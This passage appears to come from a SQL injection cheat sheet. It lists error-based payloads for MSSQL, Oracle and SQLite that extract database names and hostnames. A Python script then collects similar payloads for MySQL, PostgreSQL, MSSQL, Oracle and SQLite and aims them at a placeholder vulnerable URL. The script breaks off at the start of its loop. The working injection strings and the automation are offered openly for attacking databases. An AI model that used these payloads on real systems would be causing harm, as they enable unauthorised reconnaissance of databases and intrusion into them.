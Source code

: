 **Extracting Database Name**
```sql
'; SELECT 1 WHERE 1=CAST(DB_NAME() AS INT) --
```

**Extracting Hostname**
```sql
'; SELECT 1 WHERE 1=CAST(@@servername AS INT) --
```

### Oracle

**Extracting Database Name**
```sql
' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT ora_database_name FROM dual) AS INT) --
```

**Extracting Hostname**
```sql
' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT SYS_CONTEXT('USERENV', 'HOST') FROM dual) AS INT) --
```

### SQLite

**Extracting Database Name**

SQLite uses a single database per file, but you can force errors to reveal database-related information.
```sql
' AND 1=CAST((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1) AS INT) --
```

**Extracting Hostname**

SQLite does not inherently have a hostname since it’s a file-based database. However, you can infer file paths which might give clues.
```sql
' AND 1=CAST((SELECT file FROM pragma_database_list LIMIT 1) AS INT) --
```

## Python Script to Automate the Process

```python
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # MySQL
    "' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- ",
    "' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT @@hostname), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- ",
    # PostgreSQL
    "' AND 1=CAST((SELECT current_database()) AS INT) -- ",
    "' AND 1=CAST((SELECT inet_server_addr()) AS INT) -- ",
    # MSSQL
    "; SELECT 1 WHERE 1=CAST(DB_NAME() AS INT) -- ",
    "; SELECT 1 WHERE 1=CAST(@@servername AS INT) -- ",
    # Oracle
    "' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT ora_database_name FROM dual) AS INT) -- ",
    "' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT SYS_CONTEXT('USERENV', 'HOST') FROM dual) AS INT) -- ",
    # SQLite
    "' AND 1=CAST((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1) AS INT) -- ",
    "' AND 1=CAST((SELECT file FROM pragma_database_list LIMIT 1) AS INT) -- ",
]

for payload in payloads:
```
